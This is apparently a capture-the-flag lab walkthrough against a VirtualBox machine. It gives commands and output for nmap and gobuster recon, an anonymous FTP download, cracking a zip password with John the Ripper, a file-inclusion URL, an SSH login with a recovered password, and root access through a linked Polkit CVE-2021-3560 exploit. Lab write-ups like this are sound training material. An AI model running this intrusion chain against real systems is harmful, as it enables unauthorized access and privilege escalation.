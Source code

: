 finding ip of the target machine 
```
sudo arp-scan -l
```

nmap scan
```
nmap -sV -O -T4 --min-rate=1000 $ip
```
output:
```zsh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
MAC Address: 08:00:27:6A:91:2A (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
```

port scan:
```
nmap -sC -sV -Pn -p21,22,80 $ip
```
output:
```zsh
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 0        0             471 Sep 19  2021 respectmydrip.zip [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.170.71.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e:bb:af:6f:7d:a7:9d:65:a1:b1:a1:be:91:cd:04:28 (RSA)
|   256 a3:d3:c0:b4:c5:f9:c0:6c:e5:47:64:fe:91:c5:cd:c0 (ECDSA)
|_  256 4c:84:da:5a:ff:04:b9:b5:5c:5a:be:21:b6:0e:45:73 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/dripisreal.txt /etc/dripispowerful.html
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)

```
saw anon ftp login allowed

login with anon
```
ftp $ip
```
username: `anonymous`
password: `anonymous`

did something and exit
```ftp
ftp> ls
229 Entering Extended Passive Mode (|||61947|)
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0             471 Sep 19  2021 respectmydrip.zip
226 Directory send OK.
ftp> get respectmydrip.zip
local: respectmydrip.zip remote: respectmydrip.zip
229 Entering Extended Passive Mode (|||31022|)
150 Opening BINARY mode data connection for respectmydrip.zip (471 bytes).
100% |***************************************************************************************************************************************************************************************|   471       15.56 KiB/s    00:00 ETA
226 Transfer complete.
471 bytes received in 00:00 (15.39 KiB/s)
ftp> exit
221 Goodbye.

```

unzip the `respectmydrip.zip`
```
unzip respectmydrip.zip
```
output:
```zsh
Archive:  respectmydrip.zip
[respectmydrip.zip] respectmydrip.txt password: 
```
saw its password protected

used jtR to crack the zip pass
```
zip2john respectmydrip.zip > hash.txt && john hash.txt
```
output:
```zsh
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 16 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
0g 0:00:00:54  3/3 0g/s 40279Kp/s 40279Kc/s 40279KC/s lm1d3ep..l1lbehn
072528035        (respectmydrip.zip/respectmydrip.txt)     
1g 0:00:01:23 DONE 3/3 (2025-09-04 02:52) 0.01191g/s 41562Kp/s 41562Kc/s 41562KC/s 072238647..072709314
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
got the password of the zip: `072528035`

went to http 
run gobuster
```
gobuster dir -u http://$ip -w /usr/share/dirb/wordlists/big.txt -t 300 -x txt,php,html -q
```
output:
```zsh
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htaccess.html       (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htaccess.php        (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess.txt        (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 138]
/robots.txt           (Status: 200) [Size: 78]
/robots.txt           (Status: 200) [Size: 78]
/server-status        (Status: 403) [Size: 277]
```

checked the `robots.txt`
got 2 pages as 
`User-agent: *`
`Disallow: /dripisreal.txt`
`Disallow: /etc/dripispowerful.html`

went to `/dripisreal.txt`
got some information about the password
nothing works :(

went to  `/etc/dripispowerful.html`
`http://10.170.71.84/index.php?drip=/etc/dripispowerful.html`
got an image from there
`password is:
`imdrippinbiatch`

 tried ssh to login on thugger
 ```
 ssh thugger@$ip
 ```
 password: imdrippinbiatch
logged in as user and got the user flag
```
5C50FC503A2ABE93B4C5EE3425496521
```

trying exploits:
dirty pipe: failed
dirty creds: failed
pwn kit: failed
pol kit: success
https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py

download the exploit it in target machine
```
chmod +x polkit.py
python3 polkit.py
```
Access Granted ROOT

```
cd /root
ls
cat root.txt
```

Root Flag 
```
78CE377EF7F10FF0EDCA63DD60EE63B8
```




